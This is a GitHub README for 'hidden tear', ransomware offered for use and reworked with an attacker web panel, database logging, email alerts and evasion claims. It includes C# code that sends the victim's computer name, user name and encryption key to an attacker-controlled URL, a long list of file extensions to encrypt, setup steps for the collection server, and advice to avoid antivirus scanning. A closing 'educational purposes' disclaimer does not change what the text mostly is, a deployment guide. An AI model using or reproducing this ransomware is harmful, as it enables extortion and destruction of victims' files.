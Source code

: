          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with virus total or similar
* This project was updated by Virgula0 and coded by Uktu Sen 
- New features:
* A new advanced server script was added that saves data into database
* All informations are sent if there is an internet connection and the ransomware wait for it if there isn't.
* You can see all target information with Server Attacker panel
* Script can also send you an email with datas
* It can encrypt also exe files and it doesn't get collisions with other processes now
* It encrypt now a lot of files with a lot of extensions more and changing desktop icon with information about hacking attack
* Hidden Tear decryptor now advise if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden tear change default windows icon of desktop if decrypted is succesfully finished.
* A bug that could delete a part of passcode while sending has been removed.

***************************************************************************************************************************
* If you want , you can send some BTC for this re-work and support me, thank you!
* Address: 1HfwYmCDiHYRxzcbpDf7vSKfv8g9Y1MgpW	| Or you can scan qr code named donation_btc_address.png in the main path *
* Paypal: https://paypal.me/Virgula
* Ethereum 0x25119edFC9aA4D5beb40F24f5A759c4CA0263A54
* Bitcoin Cash: qzmd7kn87q5dkmkzalwu6pct82e68skzksxdfxxd0a
* Thank You!																											  *
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports php scripting language. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import sql table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file: write.php and uncomment from the line 37 to 43. For privacy of information this is not recommended
  * Set your email to get information also by email (don't write your PERSONAL email) in line  47 of file write.php

* The script should writes the GET parameter into a database and if you want into a text file. Sending process running in `SendPassword()` function

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:
```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THIS FILES WILL CRASH YOUR SCRIPT
* In this new re-upload there is a function that wait for internet connection before to send password to the database:

	    ```
        //check for internet connection
        public static bool CheckForInternetConnection()
        {
            try
            {
                using (var client = new WebClient())
                {
                    using (var stream = client.OpenRead("https://www.google.com"))
                    {
                        return true;
                    }
                }
            }
            catch
            {
                return false;
            }
        }
		```

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
